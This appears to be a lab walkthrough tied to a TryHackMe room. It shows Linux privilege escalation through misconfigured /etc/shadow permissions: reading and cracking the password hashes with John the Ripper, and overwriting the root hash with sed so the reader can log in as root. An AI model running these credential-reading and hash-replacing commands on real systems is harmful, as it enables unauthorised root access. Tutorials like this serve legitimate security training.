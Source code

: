 ### **OVERVIEW OF /ETC/SHADOW VULNERABILITIES**

The /etc/shadow file that stores password hashes that are only accessible by the root user under normal circumstances. Misconfigurations in this file's permissions can lead to severe security breaches.

Practice Machine : https://tryhackme.com/r/room/linuxprivescarena

### **SCENARIO 1: CRACKING PASSWORD HASHES**

If /etc/shadow is readable due to misconfigured permissions, attacker can extract and crack password hashes.

1.  Verify if the /etc/shadow is readable.  
    `ls -l /etc/shadow`  
    
    ![](../../../img/Linux-Environment/144.png)
    
2.  Using LinPEAS.sh you can also find  about this vulnerability being present.  
    `./linpeas.sh`  
    
    ![](../../../img/Linux-Environment/145.png)
    
3.  Having the ability to read /etc/shadow, we can copy the contents of it, and then, crack the hashes using john  
    `cat /etc/shadow`  
    
    ![](../../../img/Linux-Environment/146.png)
    
4.  Copy the contents of it into your own machine, or use any type of file transfer method you prefer.  
    `echo 'HASH' > shadow.hash`
    
5.  Use a password cracker like John the Ripper.  
    `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash`
    

### **SCENARIO 2: REPLACING ROOT PASSWORD HASH**

If /etc/shadow is writable, an attacker can replace the root password hash with a known one.

1.  Ensure the file is incorrectly writable.  
    `ls -l /etc/shadow`
    
2.  Generate a new hash for a known password.  
    `mkpasswd -m sha-512 newpassword`  
    
    ![](../../../img/Linux-Environment/147.png)
    
3.  Create a backup of the /etc/shadow file  

    ![](../../../img/Linux-Environment/148.png)
    
4.  Copy the output hash, and, replace the root hash with our new hash  
    `Before`  
    
    ![](../../../img/Linux-Environment/149.png)

    `After`  
    
    ![](../../../img/Linux-Environment/150.png)
    
5.  You can use sed command to create a whole new line  
    `sed 's/^root:[^:]*:/root:[HASH]:/g' /etc/shadow | grep [USER]`  

    ![](../../../img/Linux-Environment/151.png)

    `sed 's/^root:[^:]*:/root:$6$kIW2RPXnEttDUn1y$7VCgKvZGaJhS06zJZfWbcGbybqDaynTQMnpZjFjrFcLy9KJ\/97pxQXM5ASSssIUV\/Vydx8QSWJkUPH0tvqoVH\/:/g' /etc/shadow | grep root`
    
6.  Now we can log in as root  
    `ssh root@[IP-ADRESS]`  
    
    ![](../../../img/Linux-Environment/152.png)